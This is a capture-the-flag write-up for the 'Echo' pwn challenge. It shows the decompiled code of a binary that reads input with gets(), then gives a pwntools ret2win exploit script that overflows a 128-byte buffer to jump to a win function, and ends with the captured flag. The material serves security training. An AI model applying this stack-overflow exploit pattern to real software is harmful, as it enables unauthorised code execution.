


# Echo


Category: PWN

Difficulty: easy


## Description

> **Author**: @awesome10billion
>
> I made my own echo program. my own echo program.
>
> **Attachments**: _echo_

## Solve Walkthrough

* This is an easy pwn challenge.
* A classic PWN ret2win challenge, we must hijack the control flow to **win** function.
* Check the ELF protection with `checksec`:


```bash
[*] '/home/hurtz4eva/Nextcloud/CTF/international/2025/snykCTF/pwn/Echo/echo'
    Arch:       amd64-64-little
    RELRO:      No RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x400000)
    Stack:      Executable
    RWX:        Has RWX segments
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```


* Nothing protect us from ret2win attack.
* The ELF information is 64-bit and using LE (_little endian_) format.
* Let's discover list of function symbols inside the ELF binary. I'm using Ghidra in this case.

<figure><figcaption></figcaption></figure>

* Here's the decompiled code of `main`  and `win` functions.



```c
undefined8 main(EVP_PKEY_CTX *param_1)
{
  char local_88 [128]; // 0x80 bytes (HEX).
  
  init(param_1);
  puts("Give me some text and I\'ll echo it back to you: ");
  gets(local_88);
  puts(local_88);
  return 0;
}
```



```c
void win(void)
{
  int iVar1;
  FILE *__stream;
  char local_11;
  
  __stream = fopen("flag.txt","r");
  if (__stream != (FILE *)0x0) goto LAB_0040126a;
  puts("Please create \'flag.txt\' in this directory with your own debugging flag.");
  FUN_00401120(0);
  do {
    putchar((int)local_11);
LAB_0040126a:
    iVar1 = fgetc(__stream);
    local_11 = (char)iVar1;
  } while (local_11 != -1);
  fclose(__stream);
  return;
}
```



* Simply, we've to hijack control flow with **ret2win attack**, so we can start executing `win` function after `ret` main.
* Here's my exploit script for this challenge.


```python
#!/usr/bin/env python3
#filename: exploit.py

from pwn import *

context.binary = elf = ELF("./echo", checksec=0)
context.log_level = "debug"

# Prepare the payload.
win_addr = p64(elf.symbols['win'])
payload = b"A"*0x80 # --------------< Buff size.
payload += b"B"*0x8 # --------------< Old RBP.
payload += win_addr # --------------< Jump to win_addr.

# Send the payload.
is_remote = False # change to True if you want to run remotely.

if is_remote:
	io = remote("challenge.ctf.games", 31084)
else:
	io = elf.process()

io.sendline(payload)
io.interactive()
```


* Create a sample `flag.txt` file to run the exploit script locally. If it success, then we can run the exploit script remotely. Just change the `is_remote` variable to `True`.
* And we got the flag.

<figure><figcaption></figcaption></figure>

## Flag

<kbd>flag{4f4293237e37d06d733772a087299f17}</kbd>
